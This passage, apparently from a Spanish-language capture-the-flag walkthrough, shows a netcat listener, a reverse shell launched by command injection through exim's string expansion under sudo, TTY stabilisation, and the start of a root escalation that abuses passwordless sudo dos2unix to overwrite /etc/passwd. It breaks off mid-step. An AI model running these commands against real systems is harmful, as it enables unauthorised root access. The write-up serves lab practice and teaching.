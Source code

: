 ~~~ bash
nc -lvnp 443
~~~

## Pepe

Ejecutamos la reverse shell de la siguiente forma

~~~ bash
sudo -u pepe exim -be '${run{/bin/bash -c "/tmp/privesc"}}'
~~~

![[Pasted image 20241105203354.png]]

Y estaríamos conectados como el usuario `pepe`, ahora finalmente nos queda escalar a `root`

![[Pasted image 20241105203659.png]]

## Tratamiento TTY

Hacemos un tratamiento de la TTY para poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm

script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
/bin/bash
stty columns 189 rows 44
~~~

![[Pasted image 20241105204545.png]]

## Sudo `dos2unix`

Listaremos nuestros privilegios `sudo` para ver si tenemos acceso a un recurso nuevo el cual podamos explotar para elevar nuestros privilegios

~~~ bash
sudo -l
~~~

![[Pasted image 20241105205458.png]]

Tenemos capacidad de ejecutar `dos2unix` sin proporcionar contraseña. Con la capacidad de escritura de archivos con `dos2unix`, podemos llevar a cabo una escalada de privilegios mediante una escritura privilegiada

![[Pasted image 20241105204818.png]]

Usaremos el contenido de `/etc/passwd` para nuestra escalada, primeramente hacemos una copia del `/etc/passwd` en algún directorio como `/tmp`
